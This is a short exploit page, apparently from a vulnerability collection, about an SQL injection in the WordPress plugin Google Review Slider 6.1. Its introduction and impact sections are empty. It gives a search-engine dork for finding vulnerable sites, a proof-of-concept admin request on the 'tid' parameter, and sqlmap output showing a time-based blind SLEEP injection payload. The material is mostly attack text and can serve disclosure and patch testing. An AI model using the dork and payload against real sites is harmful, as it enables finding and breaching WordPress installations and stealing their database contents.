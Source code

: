 ```yaml
---
title: "WordPress Plugin - Google Review Slider 6.1 SQL Injection"
id: zhfly3240
---
```


# WordPress Plugin - Google Review Slider 6.1 SQL Injection

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

inurl:"/wp-content/plugins/wp-google-places-review-slider/"

POC :

```
 GET/wp-admin/admin.php?page=wp_google-templates_posts&tid=1&_wpnonce=***
 &taction=edit HTTP/1.1 
```

sqlmap result

```
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: tid (GET)
Type: time-based blind
title: "MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
Payload: page=wp_google-templates_posts&tid=1 AND (SELECT 5357 FROM
(SELECT(SLEEP(5)))kHQz)&_wpnonce=***&taction=edit 
```